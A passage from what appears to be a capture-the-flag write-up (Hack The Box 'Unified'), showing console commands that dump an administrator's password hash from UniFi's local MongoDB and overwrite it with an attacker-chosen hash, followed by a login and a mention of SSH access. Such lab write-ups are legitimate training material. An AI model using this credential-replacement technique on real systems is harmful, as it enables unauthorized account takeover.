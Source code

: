 It is.

```console
unifi@unified:/$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
        "time_created" : NumberLong(1640900495),
        "last_site_name" : "default",

(...)		
		
unifi@unified:/$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$DG3nklAGRY8RQtzx$l3Pqg4zmHRXNZwa.3sBesr12HpG.m9Jwt7PJQ23Yjmjcg.iqMmhM1t6QZ.iaGHnG3FutYkTbcTWtttArdz.9k/"}})'
<jmjcg.iqMmhM1t6QZ.iaGHnG3FutYkTbcTWtttArdz.9k/"}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })

unifi@unified:/$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
<17 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$DG3nklAGRY8RQtzx$l3Pqg4zmHRXNZwa.3sBesr12HpG.m9Jwt7PJQ23Yjmjcg.iqMmhM1t6QZ.iaGHnG3FutYkTbcTWtttArdz.9k/",
        "time_created" : NumberLong(1640900495),
        "last_site_name" : "default",

(...)
```

We should now be able to log in with the new password!

![](Pasted%20image%2020220415131940.png)

We are in!

![](Pasted%20image%2020220415132048.png)

UniFi has an ssh implementation we can make use of:
